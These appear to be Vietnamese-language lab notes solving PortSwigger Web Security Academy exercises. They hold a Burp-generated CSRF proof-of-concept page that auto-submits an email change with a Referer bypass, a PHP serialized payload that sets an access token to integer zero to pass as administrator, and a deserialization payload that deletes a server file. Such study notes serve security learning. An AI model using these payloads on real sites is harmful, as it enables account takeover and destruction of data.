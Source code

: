 ## CSRF with broken Referer validation

Context: liên quan đến thay đổi Referer

Payload: 
Trên phần header của exploit, thêm `Referrer-Policy: unsafe-url`

```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <meta name="referrer" content="never">
  <body>
    <form action="https://0a490017038fb2118041801400e3005f.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="abcd&#64;gmail&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?YOUR-LAB-ID.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

# Insecure deserialization

## Modifying serialized data types

Thay đổi loại dữ liệu, thay đổi `access_token` cuối thành int:0

payload: `O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}` 

## Using application functionality to exploit insecure deserialization

Context: Bài này ở đoạn serialize có chứa 1 object lưu lại path đến avatar, ta sẽ thao túng path này để xóa nội dung. 

Khi truy cập `/delete` thì sẽ có đoạn:

`s:11:"avatar_link";s:23:"path..."`

Nhằm xóa luôn avatar khi xóa tài khoản. Vì vậy nếu đây là 1 file nhạy cảm khác nó sẽ xóa luôn trên server. 

Payload:
`s:11:"avatar_link";s:23:"/home/carlos/morale.txt"`

## Arbitrary object injection in PHP

Context: tùy ý thay đổi đối tượng ở serialize

